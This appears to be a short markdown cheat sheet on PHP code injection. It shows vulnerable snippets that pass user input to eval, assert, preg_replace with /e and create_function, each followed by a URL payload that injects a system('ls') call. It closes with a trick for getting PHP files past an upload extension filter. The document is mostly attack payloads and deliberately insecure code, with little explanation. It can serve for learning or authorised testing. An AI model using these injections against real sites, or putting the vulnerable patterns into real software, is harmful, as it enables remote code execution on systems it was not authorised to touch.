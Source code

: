 ###### `#` needs to be encoded in each case they are used through urls

#### Beware of the following functions : 
##eval

```
<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";
  eval($str);
?>
```

attack = ?name=";syslem("ls");#

##assert()  - identical to eval()
```
<?php
  assert(trim("'".$_GET['name']."'"));
  echo "Hello ".htmlentities($_GET['name']);
?> 
```
attack = ?name='.system("ls");#

##preg_replace (with /e modifier) => preg_replace('/.*/e',...) - /e does an eval() on the match
```
<?php
    echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]);
?>
```
attack = ?pattern=/.*/e&new=system("ls")&base=something

##create_function
```
<?php
   usort($users, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));
?>
```
attack = ?order=id);}system('ls');#

include[_once] / require[_once] 

WildCard :  A .php file can be uploaded bypassing preg_match('/\.php$/',$file) by name the file as .php2 or 	            .php.blah so that apche doesn't know to handle the extension move to next one and run the php code 
